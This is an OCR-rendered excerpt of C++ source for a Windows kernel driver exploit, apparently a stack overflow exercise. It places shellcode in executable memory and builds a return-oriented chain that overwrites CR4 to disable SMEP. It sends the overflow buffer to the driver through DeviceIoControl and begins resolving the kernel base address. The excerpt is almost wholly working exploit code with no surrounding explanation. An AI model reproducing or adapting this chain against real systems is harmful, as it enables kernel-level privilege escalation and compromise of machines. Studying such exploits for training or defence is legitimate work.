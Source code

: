 ```
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
 
    memcpy(shellcode_addr, shellcode, sizeof(shellcode));
 
    cout << "[>] Shellcode allocated in userland at: 0x" << (INT64)shellcode_addr
        << endl;
 
    BYTE input_buff[2088] = { 0 };
 
    INT64 pop_rcx_offset = kernel_base + 0x146580; // gadget 1
    cout << "[>] POP RCX gadget located at: 0x" << pop_rcx_offset << endl;
    INT64 rcx_value = 0x70678; // value we want placed in cr4
    INT64 mov_cr4_offset = kernel_base + 0x3D6431; // gadget 2
    cout << "[>] MOV CR4, RCX gadget located at: 0x" << mov_cr4_offset << endl;
 
 
    memset(input_buff, '\x41', 2056);
    memcpy(input_buff + 2056, (PINT64)&pop_rcx_offset, 8); // pop rcx
    memcpy(input_buff + 2064, (PINT64)&rcx_value, 8); // disable SMEP value
    memcpy(input_buff + 2072, (PINT64)&mov_cr4_offset, 8); // mov cr4, rcx
    memcpy(input_buff + 2080, (PINT64)&shellcode_addr, 8); // shellcode
 
    // keep this here for testing so you can see what normal buffers do to subsequent routines
    // to learn from for execution restoration
    /*
    BYTE input_buff[2048] = { 0 };
    memset(input_buff, '\x41', 2048);
    */
 
    cout << "[>] Input buff located at: 0x" << (INT64)&input_buff << endl;
 
    DWORD bytes_ret = 0x0;
 
    cout << "[>] Sending payload..." << endl;
 
    int result = DeviceIoControl(hFile,
        IOCTL,
        input_buff,
        sizeof(input_buff),
        NULL,
        0,
        &bytes_ret,
        NULL);
 
    if (!result) {
        cout << "[!] DeviceIoControl failed!" << endl;
    }
}
 
INT64 get_kernel_base() {
 
    cout << "[>] Getting kernel base address..." << endl;
 
    //https://github.com/koczkatamas/CVE-2016-0051/blob/master/EoP/Shellcode/Shellcode.cpp
    //also using the same import technique that @tekwizz123 showed us
 
    PNtQuerySystemInformation NtQuerySystemInformation =
        (PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtQuerySystemInformation");
 
    if (!NtQuerySystemInformation) {
 
```
